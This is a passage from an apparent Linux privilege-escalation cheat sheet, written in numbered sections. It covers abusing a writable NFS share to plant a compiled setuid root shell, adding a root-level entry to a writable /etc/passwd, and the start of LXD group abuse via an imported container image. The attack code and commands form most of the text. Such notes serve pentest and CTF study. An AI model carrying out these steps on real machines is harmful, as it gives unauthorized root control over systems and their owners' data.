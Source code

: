   * Then we mount the share, still on our machine:

    * `mkdir /tmp/backupsonattackermachine` → creates a directory on our machine

    * `mount -o rw 10.0.2.12:/backups /tmp/backupsonattackermachine` → where the two directories “create” the share.

    * `nano nfs.c` :

      ```c
      int main()
      {
      	setgid(0);
      	setuid(0);
      	system("/bin/bash");
      	return 0;
      }
      ```

    * `gcc nfs.c -o nfs -w`

    * `chmod +s nfs`  and  `chmod +x nfs`

    * Since we already mounted the share, the file will already be in the target machine's directory (`/backups`), we don't need to transfer it.

---
<a id="8-write-on-etcpasswd"></a>
# 8. Write permission on **/etc/passwd**

  ```bash
  ls -l /etc/passwd
  ```

  * First, generate an encrypted password with openssl:

    * `openssl passwd -1 “mypassword”`
  * Now, using nano, edit `/etc/passwd` and add a new entry:

    * `root:$1$...:0:0:root:/root:/bin/bash`

---
<a id="9-groups"></a>
# 9. **Groups** (LXD, Docker, Disk, Adm)

  Run **`id`** and see if we are in any of the groups below.
  <a id="9.1-lxd"></a>
  ## **LXD**
  
  If the user belongs to the **`lxd`** group, they can **create containers**. With a privileged container + volume mount, you can **access the host filesystem as root**, even as a regular user.

  ```bash
  # Start LXD setup (use defaults):
  lxd init

  # Check if there is already an image:
  lxc image list

  # If there is no image, we download Alpine:
  # CHECK the new version and change (GPT..):
  wget https://images.linuxcontainers.org/images/alpine/3.18/amd64/default/20230817_13:00/lxd.tar.xz
  wget https://images.linuxcontainers.org/images/alpine/3.18/amd64/default/20230817_13:00/rootfs.squashfs

  lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
  ```
